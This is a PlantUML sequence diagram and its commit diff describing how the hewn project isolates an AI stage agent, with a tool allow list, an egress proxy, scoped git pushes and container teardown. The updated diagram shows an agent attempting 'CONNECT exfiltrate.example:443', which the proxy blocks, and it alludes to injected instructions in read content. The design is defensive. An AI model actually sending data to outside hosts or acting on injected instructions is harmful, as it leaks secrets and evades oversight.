
Above: docs/detailed-designs/agent-runtime/agent-isolation/diagrams/sequence-contain-a-run.png in QuinntyneBrown/hewn (PlantUML), before the change. Source of this version:
```plantuml
@startuml
title UML sequence behaviour — Contain a run
skinparam backgroundColor #FFFFFF
skinparam shadowing false
skinparam roundcorner 12
skinparam defaultFontName Arial
skinparam ArrowColor #344054
skinparam rectangle {
  BorderColor #344054
  FontColor #101828
}
skinparam package {
  BorderColor #667085
  FontColor #101828
  BackgroundColor #F9FAFB
}
skinparam sequenceMessageAlign left
box "Backend — Worker stage execution" #ECFDF3
  participant "RunSandbox" as sandbox
  participant "StageAgent" as agent
  participant "ToolGate" as gate
  participant "EgressProxy" as proxy
end box
box "Backend — Worker application" #D1FADF
  participant "WorkerGitSidecar" as side
end box
box "Backend — Hewn API application" #D1FADF
  participant "RunsController" as ctrl
  participant "GitPushProxy" as gpp
end box
box "External systems" #F2F4F7
  participant "GitHub" as gh
end box
sandbox -> sandbox : Create container; mount only this run's workspace (L2-042 AC1)
sandbox -> agent : Start stage agent
agent -> gate : Call tool "write_file docs/brief.md"
gate --> agent : Allowed
agent -> gate : Call tool not on stage allow list
gate -> ctrl : SecurityEvent(ToolDenied) (L2-042 AC3)
gate --> agent : Denied
agent -> proxy : git push http://sidecar/git/{run} feature/x
proxy -> side : Allowed host
side -> gpp : Forward + worker token + epoch
gpp -> gh : Fenced; refs/heads/feature/x only; installation token stays in the API
agent -> proxy : git push http://sidecar/git/{run} main
proxy -> side : Allowed host
side -> gpp : Forward
gpp --> agent : Rejected: ref not owned by this run (L2-042 AC4)
agent -> proxy : GET https://github.com/... (direct)
proxy -> ctrl : SecurityEvent(EgressBlocked) (L2-042 AC2)
proxy --> agent : Blocked
note over agent, gate : Instructions in read content find no tool for config, budgets, secrets, other projects or other branches (L2-042 AC4)
sandbox -> sandbox : On run end: scrub agent-written credentials; destroy container
@enduml
```

The same diagram one commit later.

What changed in the source:
```diff
@@ -15,40 +15,37 @@
   BackgroundColor #F9FAFB
 }
 skinparam sequenceMessageAlign left
+box "Backend — Worker application" #D1FADF
+  participant "WorkLoop" as loop
+  participant "EgressProxy" as proxy
+  participant "RunSandbox" as sandbox
+end box
 box "Backend — Worker stage execution" #ECFDF3
-  participant "RunSandbox" as sandbox
   participant "StageAgent" as agent
   participant "ToolGate" as gate
-  participant "EgressProxy" as proxy
-end box
-box "Backend — Worker application" #D1FADF
-  participant "WorkerGitSidecar" as side
 end box
 box "Backend — Hewn API application" #D1FADF
-  participant "RunsController" as ctrl
-  participant "GitPushProxy" as gpp
+  participant "WorkerController" as ctrl
 end box
 box "External systems" #F2F4F7
-  participant "GitHub" as gh
+  participant "Allowed hosts" as ok
 end box
-sandbox -> sandbox : Create container; mount only this run's workspace (L2-042 AC1)
-sandbox -> agent : Start stage agent
-agent -> gate : Call tool "write_file docs/brief.md"
+loop -> loop : Lease a run; make its workspace (L2-042 AC1)
+loop -> proxy : Start this run's proxy: model API, Magic Patterns, npm, NuGet
+loop -> agent : Run the stage with ToolGate(stage allowedTools) and the proxy URL
+agent -> gate : require("Write")
 gate --> agent : Allowed
-agent -> gate : Call tool not on stage allow list
-gate -> ctrl : SecurityEvent(ToolDenied) (L2-042 AC3)
-gate --> agent : Denied
-agent -> proxy : git push http://sidecar/git/{run} feature/x
-proxy -> side : Allowed host
-side -> gpp : Forward + worker token + epoch
-gpp -> gh : Fenced; refs/heads/feature/x only; installation token stays in the API
-agent -> proxy : git push http://sidecar/git/{run} main
-proxy -> side : Allowed host
-side -> gpp : Forward
-gpp --> agent : Rejected: ref not owned by this run (L2-042 AC4)
-agent -> proxy : GET https://github.com/... (direct)
-proxy -> ctrl : SecurityEvent(EgressBlocked) (L2-042 AC2)
-proxy --> agent : Blocked
-note over agent, gate : Instructions in read content find no tool for config, budgets, secrets, other projects or other branches (L2-042 AC4)
-sandbox -> sandbox : On run end: scrub agent-written credentials; destroy container
+agent -> gate : require("Bash"), not on the stage's allow list
+gate -> loop : "Security event: tool Bash denied" (L2-042 AC3)
+gate --> agent : ToolDeniedError
+agent -> proxy : CONNECT registry.npmjs.org:443
+proxy -> ok : Tunnel
+agent -> proxy : CONNECT exfiltrate.example:443
+proxy -> loop : "Egress blocked: exfiltrate.example" (L2-042 AC2)
+proxy --> agent : 403
+loop -> sandbox : Run the gate's commands
+sandbox -> sandbox : No worker variable or credential; HTTPS_PROXY only;\nHEWN_SANDBOX=docker: own container, workspace mount, no capabilities,\ninternal network whose only peer is the proxy
+loop -> ctrl : Log lines with the run's epoch; commits through the commit mutation, never git to GitHub
+note over agent, gate : No tool exposes Hewn configuration, budgets, secrets or another project (L2-042 AC4)
+loop -> loop : Run ends: stop the proxy; remove the workspace
 @enduml
```
